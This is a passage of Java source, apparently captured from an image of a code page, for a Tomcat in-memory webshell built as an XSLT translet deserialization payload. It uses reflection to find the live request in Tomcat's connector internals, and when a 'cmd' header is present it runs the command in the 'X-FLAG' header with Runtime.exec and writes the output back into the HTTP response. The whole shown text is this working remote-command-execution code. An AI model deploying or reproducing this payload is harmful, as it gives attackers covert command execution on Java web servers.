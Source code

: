 ```java
                if (4==connectors[i].getScheme().length()) {
                    org.apache.coyote.ProtocolHandler protocolHandler = connectors[i].getProtocolHandler();
                    if (protocolHandler instanceof org.apache.coyote.http11.AbstractHttp11Protocol) {
                        Class[] classes = org.apache.coyote.AbstractProtocol.class.getDeclaredClasses();
                        for (int j = 0; j < classes.length; j++) {
                            if (52 == (classes[j].getName().length())||60 == (classes[j].getName().length())) {
                                java.lang.reflect.Field globalField = classes[j].getDeclaredField("global");
                                java.lang.reflect.Field processorsField = org.apache.coyote.RequestGroupInfo.class.getDeclaredField("processors");
                                globalField.setAccessible(true);
                                processorsField.setAccessible(true);
                                org.apache.coyote.RequestGroupInfo requestGroupInfo = (org.apache.coyote.RequestGroupInfo) globalField.get(getHandlerMethod.invoke(protocolHandler,null));
                                java.util.List list = (java.util.List) processorsField.get(requestGroupInfo);
                                for (int k = 0; k < list.size(); k++) {
                                    org.apache.coyote.Request tempRequest = (org.apache.coyote.Request) requestField.get(list.get(k));
                                    if ("cmd".equals(tempRequest.getHeader("cmd"))) {
                                        org.apache.catalina.connector.Request request = (org.apache.catalina.connector.Request) tempRequest.getNote(1);
                                        String cmd = tempRequest.getHeader("X-FLAG");
                                        //String[] cmds =  new String[]{"cmd.exe", "/c", "whoami"};
                                        java.io.InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();
                                        java.util.Scanner s = new java.util.Scanner(in).useDelimiter("\\a");
                                        String output = s.hasNext() ? s.next() : "";
                                        java.io.Writer writer = request.getResponse().getWriter();
                                        java.lang.reflect.Field usingWriter = request.getResponse().getClass().getDeclaredField("usingWriter");
                                        usingWriter.setAccessible(true);
                                        usingWriter.set(request.getResponse(), Boolean.FALSE);
                                        writer.write(output);//输出
                                        writer.flush();
                                        break;
                                    }
                                }
                                break;
                            }
                        }
                    }
                    break;
                }
            }
        }catch (Exception e){
        }
    }



    public static void main(String[] args) {

    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

```